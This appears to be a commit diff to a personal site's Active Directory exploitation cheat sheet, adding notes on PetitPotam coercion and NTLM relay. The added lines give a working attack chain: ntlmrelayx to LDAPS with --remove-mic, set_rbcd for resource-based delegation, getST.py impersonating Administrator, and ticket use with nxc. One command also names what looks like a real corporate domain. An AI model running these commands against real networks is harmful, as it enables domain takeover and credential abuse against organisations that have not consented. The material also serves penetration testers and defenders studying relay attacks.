

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 900 px high, scrolled down 7575 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -265,6 +265,7 @@ EOF
   - This is better with credentials; can check for more methods (`-u {domain}\{user}` and `-p {password}`)
 - Petitpotam
   - Uses `EfsRpcOpenFileRaw` to convince the DC to open a file at `\\attacker_share\share`, thus causing the DC to authenticate to us
+    - If EFS service isn't active, we can use something like [https://github.com/Hypnoze57/rpc2efs](https://github.com/Hypnoze57/rpc2efs) to start it up unauth
   - We can capture the credential using impacket's `smbserver` to try and crack it, but this is pretty unlikely to work due to the randomized passwords
     - `smbserver.py loot $(pwd) -smb2support` will host a share on our IP called `loot`
     - Instead, we should relay it on with impacket's `ntlmrelayx` or `certipy`
@@ -304,6 +305,18 @@ EOF
 - NetNTLMv1
   - If we receive NetNTLMv1, we can relay cross-protocol to services, even if they require binding
     - This is because NetNTLMv1 doesn't allow for the inclusion of a Message Integrity Code (MIC)
+
+**Picking the protocol to relay to**
+- Servers can have protections against relay attacks (SMB signing, LDAP signing, LDAP channel binding)
+- The main reason we'd want to relay some form of authentication is because we want to be that user on the device we're relaying to
+  - For example, if we capture credentials via poisoning, we can relay those credentials to any unprotected device that the object has access to
+- Often, it can help to look at bloodhound
+  - If a computer has AdminTo over other computers (or is simply in the Administrators group), we can coerce and relay to the other computers lacking protections
+- If ANY DC is missing ldaps protections (yes, it has to be LDAPS), we can basically take over any computer we can coerce
+  - Just a simple `ntlmrelayx.py -t ldaps://{dc} -i --remove-mic -smb2support` will do the trick, opening an LDAPS shell locally
+    - Within the shell, do `set_rbcd {DC_NAME}$ {computer_name}$` to give a computer account the ability to impersonate users on the DC via S4U2Proxy
+      - Can then request an ST with `getST.py -spn cifs/{DC_fqdn} -impersonate Administrator -dc-ip {IP} 'corp.nuskin.net/{computer_acct}:{computer_pw}'`
+      - Then just `export KRB5CCNAME=Administrator.ccache` and `nxc smb {ip} -k --use-kcache`
 
 **CVE-2025-33073**
 - Detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
```
Also changed, not shown: markdown/DatabaseAttacks.md (+1 -0 lines), markdown/KioskBreakouts.md (+4 -1 lines).
